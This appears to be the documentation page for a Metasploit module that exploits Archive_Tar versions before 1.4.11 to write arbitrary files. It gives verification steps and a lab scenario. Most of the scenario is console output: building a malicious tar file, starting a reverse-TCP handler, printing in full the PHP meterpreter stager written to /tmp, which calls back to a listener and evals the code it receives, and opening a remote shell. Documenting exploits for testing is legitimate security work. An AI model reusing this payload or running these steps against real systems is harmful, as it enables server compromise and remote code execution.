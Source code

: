 ## Description

    This module takes advantages of Archive_Tar < 1.4.11's lack of validation of file
    stream wrappers contained within filenames to write an arbitrary file containing
    user controlled content to an arbitrary file on disk. Note that the file will be
    written to disk with the permissions of the user that PHP is running as, so it may
    not be possible to overwrite some files if the PHP user is not appropriately
    privileged.


## Vulnerable Application

  [Archive_Tar](https://github.com/pear/Archive_Tar/) is a plugin for the
  [PEAR PHP development framework](https://pear.php.net/) that allows developers
  the ability to create, delete, modify and extract files from TAR archives.


## Verification Steps

1. **Install** the PEAR framework using the instructions at https://pear.php.net/manual/en/installation.getting.php
1. **Verify** the PEAR framework is working using the instructions at https://pear.php.net/manual/en/installation.checking.php
1. **Download** the PoC files from the original advisory at https://github.com/pear/Archive_Tar/files/5551831/exploit.zip.
1. **Unzip** the files to a sample directory
1. Open up `msfconsole`.
1. `use exploit/multi/fileformat/archive_tar_arb_file_write`
1. `set FILENAME exploit.tar`
1. `set FILEPATH *path to the file to overwrite on the target system*`
1. `run`
1. **Copy** the generated `exploit.tar` file to the `file_proc` directory within the directory you expanded `exploit.zip` to from earlier.
1. **Run** `php vulnerable.php`
1. **Verify** that the file was created in the location you specified in the `FILEPATH` parameter, with the contents of the PHP shell that you specified for the `PAYLOAD` parameter.


## Options

  **FILENAME**
  The name of the TAR file to be created locally

  **FILEPATH**
  The full path to the file on the target system that should be
  created or overwritten with the code for a PHP shell.


## Scenarios

### Archive_Tar v1.4.10

First create the malicious TAR file and set up the listener:

```
msf6 > use exploit/multi/fileformat/archive_tar_arb_file_write
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/fileformat/archive_tar_arb_file_write) > show options

Module options (exploit/multi/fileformat/archive_tar_arb_file_write):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME                   no        The file name.
   FILEPATH  /tmp/msf.php     yes       The full path to the file to write on the target.


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.30.86.152    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Archive_Tar < 1.4.11


msf6 exploit(multi/fileformat/archive_tar_arb_file_write) > set FILENAME test.tar
FILENAME => test.tar
msf6 exploit(multi/fileformat/archive_tar_arb_file_write) > set FILEPATH /tmp/test.php
FILEPATH => /tmp/test.php
msf6 exploit(multi/fileformat/archive_tar_arb_file_write) > run

[*] Writing file: test.tar (3072 bytes) ...
[+] test.tar stored at /home/test/.msf4/local/test.tar
msf6 exploit(multi/fileformat/archive_tar_arb_file_write) > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 172.30.86.152
LHOST => 172.30.86.152
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.30.86.152:4444
```

Then copy the file over and into the expanded copy of https://github.com/pear/Archive_Tar/files/5551831/exploit.zip
and run vulnerable.php to simulate an application opening a tar file and extracting its contents.

```
 ~/drupal/exploit/file_poc  ls                                                                                     ✔ │ 2.6.6 Ruby
create_tar.py  exploit.tar  input_file.txt  php_errors.log  steps.sh  vulnerable.php
 ~/drupal/exploit/file_poc  rm -rf exploit.tar                                                                     ✔ │ 2.6.6 Ruby
 ~/drupal/exploit/file_poc  cp /home/test/.msf4/local/test.tar exploit.tar                                     ✔ │ 2.6.6 Ruby
 ~/drupal/exploit/file_poc  ls -alh /tmp/test.php                                                                  ✔ │ 2.6.6 Ruby
ls: cannot access '/tmp/test.php': No such file or directory
 ~/drupal/exploit/file_poc  php vulnerable.php                                                                   2 х │ 2.6.6 Ruby
 ~/drupal/exploit/file_poc  cat vulnerable.php                                                                     ✔ │ 2.6.6 Ruby
<?php

  require_once('../Archive/Tar.php');

  $archive = new Archive_Tar('exploit.tar');
  $archive->extract();
 ~/drupal/exploit/file_poc  ls -alh /tmp/test.php                                                                  ✔ │ 2.6.6 Ruby
-rw-rw-r-- 1 test test 1.1K Jan 15 17:54 /tmp/test.php
 ~/drupal/exploit/file_poc  cat /tmp/test.php                                                                      ✔ │ 2.6.6 Ruby
/*<?php /**/ error_reporting(0); $ip = '172.30.86.152'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
```

Now we just have to run the PHP file to simulate a user browsing to the web page:

```
php /tmp/test.php
```

And the shell will be obtained:

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.30.86.152:4444
[*] Sending stage (39282 bytes) to 172.30.86.152
[*] Meterpreter session 2 opened (172.30.86.152:4444 -> 172.30.86.152:56754) at 2021-01-15 18:02:55 -0600

meterpreter > getuid
Server username: test (1000)
meterpreter > uname -a
[-] Unknown command: uname.
meterpreter > shell
Process 29349 created.
Channel 0 created.
uname -a
Linux test-Virtual-Machine 5.8.0-36-generic #40~20.04.1-Ubuntu SMP Wed Jan 6 10:15:55 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```